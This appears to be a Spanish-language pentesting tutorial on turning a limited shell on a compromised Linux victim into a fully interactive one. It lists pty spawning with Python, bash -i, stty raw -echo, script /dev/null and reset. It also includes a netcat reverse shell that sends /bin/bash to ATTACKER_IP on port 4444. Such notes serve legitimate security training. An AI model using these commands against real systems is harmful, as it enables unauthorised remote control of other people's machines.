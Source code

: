 Para **Linux**, cuando hablamos de "upgradear" una shell no interactiva, generalmente nos referimos a técnicas que convierten una shell limitada o sin características de interacción (como no poder usar teclas de edición, el historial de comandos o tener un terminal completamente funcional) en una shell interactiva completa que permite una mayor flexibilidad para ejecutar comandos.

### 📌 **Métodos Comunes para Upgradear una Shell No Interactiva en Linux:**

1. **Usar `python` para obtener una shell interactiva** Si tienes acceso a **Python** en la víctima, puedes usarlo para invocar una shell interactiva. Este es uno de los métodos más utilizados debido a su simplicidad y disponibilidad en la mayoría de las distribuciones de Linux.
    
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
    
    🔹 **Explicación:**  
    Este comando crea un proceso interactivo de Bash usando el módulo `pty` de Python. Esto te da una shell completa que puedes usar como si estuvieras en un terminal normal.
    
2. **Usar `bash` con la opción `-i`** Si tienes una shell de Bash que no es interactiva (por ejemplo, que no permite el uso de teclas de flechas o el historial de comandos), puedes invocar una nueva instancia de **Bash** en modo interactivo.
    
    ```bash
    /bin/bash -i
    ```
    
    🔹 **Explicación:**  
    El parámetro `-i` le indica a Bash que debe ejecutarse en modo interactivo, lo que habilita características como el historial de comandos y el uso de las teclas de edición.
    
3. **Usar `stty` y `fg` para mejorar la terminal** A veces, una shell puede no estar completamente interactiva porque no tiene configuraciones de terminal adecuadas. Usando `stty` y `fg`, puedes intentar mejorar la entrada/salida del terminal.
    
    ```bash
    stty raw -echo; fg
    ```
    
    🔹 **Explicación:**
    
    - `stty raw -echo`: Esto pone el terminal en modo "raw" y desactiva el eco, lo que significa que puedes escribir comandos sin que se muestren en pantalla.
    - `fg`: Trae el trabajo en segundo plano a primer plano, lo que puede restaurar la capacidad de interactuar con el shell de manera normal.
4. **Uso de `script` para obtener una shell interactiva** El comando `script` puede ser usado para crear una shell interactiva.
    
    ```bash
    script /dev/null
    ```
    
    🔹 **Explicación:**  
    El comando `script` te permite crear un registro de una sesión interactiva, y si se usa sin especificar un archivo de salida, como en este caso con `/dev/null`, puedes obtener una shell interactiva en la víctima.
    
5. **Manipulación del terminal con `reset`** Si la terminal parece estar "rota" o deshabilitada (por ejemplo, sin mostrar las teclas de edición o sin permitir una interacción fluida), puedes intentar restablecer el terminal.
    
    ```bash
    reset
    ```
    
    🔹 **Explicación:**  
    El comando `reset` intenta restaurar la configuración predeterminada de la terminal, lo que a veces mejora la interactividad.
    
6. **Usar `nc` (Netcat) para obtener acceso interactivo** Si tienes `nc` (Netcat) disponible, puedes usarlo para enviar comandos a través de una conexión de red, lo que también te permite obtener una shell interactiva.
    
    ### **Escuchar en la máquina atacante:**
    
    ```bash
    nc -lvnp 4444
    ```
    
    ### **En la máquina víctima (enviando la shell):**
    
    ```bash
    nc ATTACKER_IP 4444 -e /bin/bash
    ```
    
    🔹 **Explicación:** Esto crea una conexión entre la máquina víctima y la máquina atacante, proporcionando una shell interactiva de la víctima a través de Netcat.
    

---

### 🚀 **Conclusión:**

Upgradear una shell no interactiva en Linux implica convertir una shell limitada o sin funcionalidades avanzadas en una shell completamente funcional. Algunos métodos comunes para lograr esto incluyen:

- **`python -c 'import pty; pty.spawn("/bin/bash")'`**: Para invocar una nueva shell de Bash interactiva.
- **`bash -i`**: Para invocar Bash en modo interactivo.
- **`stty raw -echo; fg`**: Para mejorar la terminal y restaurar la interactividad.
- **`script /dev/null`**: Para crear una nueva sesión interactiva.
- **Uso de `reset`**: Para restaurar la terminal.
- **`nc` (Netcat)**: Para obtener una shell interactiva a través de la red.
